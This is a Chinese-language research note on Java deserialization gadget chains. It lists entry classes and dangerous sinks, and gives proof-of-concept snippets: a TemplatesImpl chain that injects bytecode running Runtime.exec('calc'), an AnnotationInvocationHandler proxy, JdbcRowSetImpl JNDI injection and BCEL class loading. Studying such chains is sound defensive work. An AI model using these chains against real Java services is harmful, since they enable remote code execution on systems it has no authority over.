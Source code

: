 # java gadget

> 介绍的java gadget都是自己分析组件遇到的。。

## 简单介绍
反序列化过程==将字节流还原成对象实例的过程

反序列化过程==创建空对象+设置对象属性的过程（readObject()函数负责）

反序列化过程==**类的加载+创建对象+调用readObject**

hint:
Externalizable接口是serializable子类。其中有readExternal方法和writeExternal方法。
实现了Externalizable接口，在其反序列化的时候会触发readExternal。

## 思路
Java序列化 基本上找readobject 然后看里面的方法和我们可以控制的参数基本上参数是通过构造方法获得的，然后利用方法去触发下一个方法。或者是利用代理触发invoke方法需要满足代码东西实现invokeHaeder方法。

## readobject

```java
AnnotationInvocationHandler
HashMap#hashCode
PriorityQueue
Hashtable
HashSet  
BadAttributeValueExpException

C3P0
PoolBackedDataSourceBase

Vaadin
NestedMethodProperty

FileUpload
DiskFileItem
```

## invoke代理

```
AnnotationInvocationHandler
AnnotationInvocationHandler#equalsImpl
```

## 危险类

```
InvokerTransformer#transform
InstantiateTransformer#transform
BeanComparator#compare
PropertyUtils.getProperty(new CBtest(),"name");//调用get方法 getName
```

TemplatesImpl

```java
我们从TransletClassLoader#defineClass()向前追溯一下调用链：

TemplatesImpl#getOutputProperties() -> TemplatesImpl#newTransformer() -> TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses() -> TransletClassLoader#defineClass()

追到最前面两个方法TemplatesImpl#getOutputProperties()、TemplatesImpl#newTransformer()，这两者的作用域是public，可以被外部调用。我们尝试用newTransformer()构造一个简单的POC...
    

#无参数的invoke
ReflectionUtils.invokeMethod(newTransformer, TemplatesImpl);

TemplatesImpl.getOutputProperties()
  TemplatesImpl.newTransformer()
  	TemplatesImpl.getTransletInstance()
  		TemplatesImpl.defineTransletClasses()
  			TransletClassLoader.defineClass()
  			
        
利用代码
ClassPool pool = ClassPool.getDefault();
pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
CtClass cc = pool.makeClass("Cat");
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";
cc.makeClassInitializer().insertBefore(cmd);
String randomClassName = "EvilCat" + System.nanoTime();
cc.setName(randomClassName);
cc.setSuperclass(pool.get(AbstractTranslet.class.getName())); 
byte[] classBytes = cc.toBytecode();
byte[][] targetByteCodes = new byte[][]{classBytes};
TemplatesImpl templates = TemplatesImpl.class.newInstance();
setFieldValue(templates, "_bytecodes", targetByteCodes);
setFieldValue(templates, "_name", "name");
setFieldValue(templates, "_class", null);
ObjectBean objectBean = new ObjectBean(Templates.class,templates);

public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
    final Field field = getField(obj.getClass(), fieldName);
    field.setAccessible(true);
    field.set(obj, value);
}
public static Field getField(final Class<?> clazz, final String fieldName) {
    Field field = null;
    try {
        field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
    }
    catch (NoSuchFieldException ex) {
        if (clazz.getSuperclass() != null)
            field = getField(clazz.getSuperclass(), fieldName);
    }
    return field;
}
```

AnnotationInvocationHandler

```java
ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				AnnotationInvocationHandler.invoke() (Proxy)
 							invoke

 
entrySet
AnnotationInvocationHandler 反序列化时调用 memberValues 中存放对象的 entrySet 对象

Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> constructor = c.getDeclaredConstructors()[0];
constructor.setAccessible(true);
// 创建 ConvertedClosure 的动态代理类实例
Map handler = (Map) Proxy.newProxyInstance(Class.class.getClassLoader(), new Class[]{Map.class}, closure);
// 使用动态代理初始化 AnnotationInvocationHandler
InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, handler);
```

JdbcRowSetImpl

```java
可以jndi注入

JdbcRowSetImpl rs = new JdbcRowSetImpl();
rs.setDataSourceName("ldap://127.0.0.1:2333/test");
Method method = JdbcRowSetImpl.class.getDeclaredMethod("getDatabaseMetaData");
```

HashMap

```
HashMap<Object, Object> map = new HashMap<>();
map.put(expression, "");
map.put("", "");

// 先放入带有无害的 ValueExpression，put 到 map 之后再反射写入 valueExpression 字段避免触发
Field field1 = expression.getClass().getDeclaredField("valueExpression");
field1.setAccessible(true);
field1.set(expression, valueExpression);
```

HashSet
    
```
HashSet hashSet = new HashSet(1);
hashSet.add(entry);
```

BadAttributeValueExpException 触发toString
```
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException("");
Field valField = BadAttributeValueExpException.class.getDeclaredField("val");
valField.setAccessible(true);
valField.set(badAttributeValueExpException,xxxxx);
```


## 写文件

aspectjweaver组件

```
SimpleCache#put
```

## class.forname

这里我们使用com.sun.org.apache.bcel.internal.util.ClassLoader这个动态加载器。这个classloader允许传入经过BCEL编码的字节码内容(className),所以我们对恶意类的字节码进行BCEL编码,赋给className,classloader指定为这个加载器，调用class.forname(className, true, classloader)就会加载恶意类的静态代码块中的代码

## java内省

```
getReadMethod()，获得用于读取属性值的方法；getWriteMethod()，获得用于写入属性值的方法;

简单的说安全问题就是可以调用set和get方法

com.sun.syndication.feed.impl#ToStringBean
PropertyDescriptor[] pds = BeanIntrospector.getPropertyDescriptors(this._beanClass);
 Method pReadMethod = pds[i].getReadMethod();
 Object value = pReadMethod.invoke(this._obj, NO_PARAMS);
```

